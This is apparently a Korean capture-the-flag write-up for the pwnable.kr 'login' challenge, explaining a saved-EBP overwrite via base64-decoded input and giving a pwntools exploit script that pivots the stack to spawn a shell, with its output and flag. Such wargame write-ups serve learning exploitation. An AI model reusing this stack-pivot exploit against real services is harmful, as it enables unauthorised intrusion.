



# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

32bit 파일에 No PIE이고, Canary가 존재한다.

```sh
root@ubuntu:~# checksec login
[*] '/root/login'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

correct함수에서 eax가 0xDEADBEEF일 때, 쉘을 얻을 수 있다.


base64 decoding한 결과의 길이가 0x0C보다 크다면 안된다.



decoding한 값의 길이가 0x0C보다 크지 않을 때, main함수의 leave에서 ebp가 decoding한 값의 마지막 4byte가 된다는 취약점이 존재한다. (auth의 memcpy에서 덮어짐)

    Authenticate : QUFBQUJCQkJDQ0ND
    hash : 1980b39bb2ff79fa50f0cade501d60cc



retn에 pop eax; ret;을 하기에는 decoding시 자릿 수가 0xC를 넘어가니 ROP은 안될것 같다.

따라서 leave시에 EBP는 input의주소를 넣어서 ESP가 EBP가 되어지고, pop ebp를 하여 input의 중간값이 return되게 한다.

그렇다면 dummy 4byte와 system("/bin/sh")인 0x08049284와 input의 주소인 0x0811EB40를 집어넣으면 되지 않을 까 싶다.

exploit코드를 짜자.

```python
from pwn import *
import base64

r = remote('pwnable.kr', 9003)
r.recvuntil('Authenticate : ')
payload = b'a'*4 + p32(0x08049284) + p32(0x0811EB40)
r.sendline(base64.b64encode(payload))
r.sendline("cat flag")
r.interactive()

[Output]
x] Opening connection to pwnable.kr on port 9003
[x] Opening connection to pwnable.kr on port 9003: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9003: Done
[*] Switching to interactive mode
hash : c5fc1ba27a7a0a06c4c2d650136e7b71
control EBP, control ESP, control EIP, control the world~
```


# **FLAG**

**control EBP, control ESP, control EIP, control the world~**